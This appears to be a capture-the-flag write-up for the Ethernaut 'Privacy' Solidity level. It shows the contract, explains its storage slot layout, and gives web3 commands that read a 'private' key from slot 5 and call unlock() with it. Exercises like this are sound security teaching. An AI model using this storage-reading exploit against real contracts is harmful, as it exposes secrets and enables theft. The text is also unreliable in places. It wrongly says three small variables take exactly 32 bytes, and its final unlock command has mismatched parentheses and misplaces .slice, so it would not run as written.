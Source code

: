 Nothing is private at Blockchain as anything on blockchain can be read even if it has private keyword.


We can store atmost 2^256 state variables in the storage and we can store upto 32bytes in a slot. In this Privacy contract bool locked takes up 1byte and stored in slot 0 and uint256 ID takes 32 bytes and cannot be stored in slot 0 so it is stored in slot 1. flattening, denomination and awkwardness is stored in same slot 2 as they take exactly 32 bytes. And finally the fixed bytes32 array stores 3 items in slot 3 to 5 as each item is 32 bytes. If it was the dynamic array the storing of item would have been different.

```
contract Privacy {

  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(now); // slot 2
  bytes32[3] private data; // slot 3,4,5

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}```

So finally we can run this command to unlock and set locked to false.
await web3.eth.getStorageAt(contract.address, 5)).slice(0,34) gets the 16 bytes of data[2] as it is at 5th slot.
slice(0,34) is done as 0x is present at start to denote the hex.

```
await contract.unlock(await web3.eth.getStorageAt(contract.address, 5)).slice(0,34));
await contract.locked();
```